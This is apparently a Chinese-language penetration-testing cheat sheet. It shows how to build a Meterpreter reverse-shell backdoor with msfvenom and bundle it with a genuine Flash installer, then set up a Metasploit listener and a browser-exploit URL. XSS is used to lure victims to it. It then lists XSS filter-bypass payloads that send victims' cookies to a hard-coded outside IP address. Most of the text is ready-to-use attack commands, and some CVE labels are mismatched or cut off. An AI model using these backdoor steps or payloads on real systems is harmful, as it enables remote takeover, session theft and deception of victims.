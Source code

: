 1. Flash捆绑后门

   1. 生成后门  

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=xx.xx.xx.xx  LPORT=6666 -f exe > flash.exe`  

   2. 下载官方文件-保证安装正常  

   3. 压缩捆绑文件-解压提取运行  

   4. MSF配置监听状态  

      ```
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lhost 0.0.0.0
      set lport 6666
      run
      ```

   5. XSS诱使受害者访问URL-语言要适当

2. 浏览器网马 (MS14-046, CVE-2019-1367, CVE-2020-138)

   1. 配置MSF生成URL  

      ```
      use exploit/windows/browser/ms14_064_ole_code_execution  
      set allowpowershellprompt true  
      set target 1  
      run  

   2. XSS诱使受害者访问URL-语言要适当

# 4.XSS过滤绕过

反射型-直接远程调用 

- `<script>window.location.href='http://47.94.236.117/get.php?c='+document.cookie</script>`

反射型-**过滤`<script>`**

- `<img src=1 onerror=window.location.href='http://47.94.236.117/get.php?c='+document.cookie;>`

反射型-**过滤`<img>`** 

- `<input onload="window.location.href='http://47.94.236.117/get.php?c='+document.cookie;">` 

- `<svg onload="window.location.href='http://47.94.236.117/get.php?c='+document.cookie;">`

反射型-**过滤空格** 

- `<svg/onload="window.location.href='http://47.94.236.117/get.php?c='+document.cookie;">` 

存储型-**无过滤** 

- `<script>window.location.href='http://47.94.236.117/get.php?c='+document.cookie</script>` 

存储型-**注册插入JS** 
